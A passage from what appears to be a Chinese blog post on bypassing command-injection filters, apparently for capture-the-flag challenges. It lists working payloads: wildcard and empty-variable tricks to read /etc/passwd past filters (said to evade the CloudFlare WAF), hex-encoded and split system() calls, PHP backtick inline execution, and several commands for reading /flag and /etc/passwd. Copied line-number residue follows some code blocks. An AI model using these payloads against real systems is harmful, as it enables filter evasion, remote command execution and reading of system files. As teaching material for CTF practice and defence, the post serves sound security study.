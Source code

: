 8进制
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200819223432773.png#pic_center)

6，过滤文件名绕过（例如过滤/etc/passwd文件）

```sda
1) 利用正则匹配绕过

[root~]# cat /???/pass*

2) 例如过滤/etc/passwd中的etc，利用未初始化变量，使用$u绕过

[root~]# cat /etc$u/passwd

备注：此方法能绕CloudFlare WAF（出自：https://www.secjuice.com/php-rce-bypass-filters-sanitization-waf/）
123456789
```

7，命令执行函数system()绕过

- “\x73\x79\x73\x74\x65\x6d”(“cat%20/flag”);
  ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200819222918776.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0NjU3ODk5,size_16,color_FFFFFF,t_70#pic_center)
- (sy.(st).em)(whoami);
  ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200819222828687.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0NjU3ODk5,size_16,color_FFFFFF,t_70#pic_center)
- 使用内敛执行代替system

```bash
echo `ls`;
echo $(ls);
?><?=`ls`;
?><?=$(ls);
1234
```

8，使用`$*`和`$@`，`$x`,`${x}`

注：因为在没有传参的情况下，上面的特殊变量都是为空的
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200819223134872.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0NjU3ODk5,size_16,color_FFFFFF,t_70#pic_center)

9，读取文件骚姿势

```bash
curl file:///flag
strings /flag
uniq -c/etc/passwd
bash -v /etc/passwd
rev /etc/passwd
12345
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201015151913692.png#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200819214732922.png#pic_center)
